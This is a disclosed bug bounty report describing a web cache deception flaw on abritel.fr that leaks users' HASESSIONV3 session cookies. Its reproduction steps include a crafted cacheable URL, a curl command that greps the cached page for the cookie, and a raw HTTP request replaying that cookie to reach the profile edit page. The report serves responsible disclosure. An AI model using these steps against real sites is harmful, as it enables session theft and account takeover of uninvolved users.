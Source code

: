 # Cache Deception Allows Account Takeover

## Report Details
- **Report ID**: 1698316
- **URL**: https://hackerone.com/reports/1698316
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-09-12T17:16:10.284Z
- **Disclosed**: 2023-04-01T20:00:17.641Z

## Reporter
- **Username**: bombon
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: expediagroup_bbp

## Vulnerability Information
## Summary:

I'm able to extract user's session (HASESSIONV3) as it is disclosed in a cacheable page, allowing me to access  the `ha.crumb` token located in  `/traveler/profile/edit` 


```http
GET /traveler/profile/edit HTTP/2
Host: www.abritel.fr
Cookie: HASESSIONV3=<use the token here>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.abritel.fr/search/keywords:soissons-france-(xss)/minNightlyPrice/0?petIncluded=false&filterByTotalPrice=true&ssr=true
Upgrade-Insecure-Requests: 1
Te: trailers
```


## Steps To Reproduce:

Victim Steps:

1->Visit https://www.abritel.fr/search/keywords:soissons-france-(xss)/minNightlyPrice/x.jpeg?triagethis

Attacker Steps:

1->Visit the same URL using any other browser or do 

```curl 'https://www.abritel.fr/search/keywords:soissons-france-(xss)/minNightlyPrice/x.jpeg?triagethis' --compressed | grep -i 'HASESSIONV3'```

{F1923081}


2-> use the token 

```http
GET /traveler/profile/edit HTTP/2
Host: www.abritel.fr
Cookie: HASESSIONV3=<use the token here>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.abritel.fr/search/keywords:soissons-france-(xss)/minNightlyPrice/0?petIncluded=false&filterByTotalPrice=true&ssr=true
Upgrade-Insecure-Requests: 1
Te: trailers
```

and look for the `ha.crumb` variable in the response




## Recommended Remediation Steps 
  1. Add cache rules for certain all cacheable extensions

## Impact

Account Takeover

## Attachments
- 2022-09-12.png
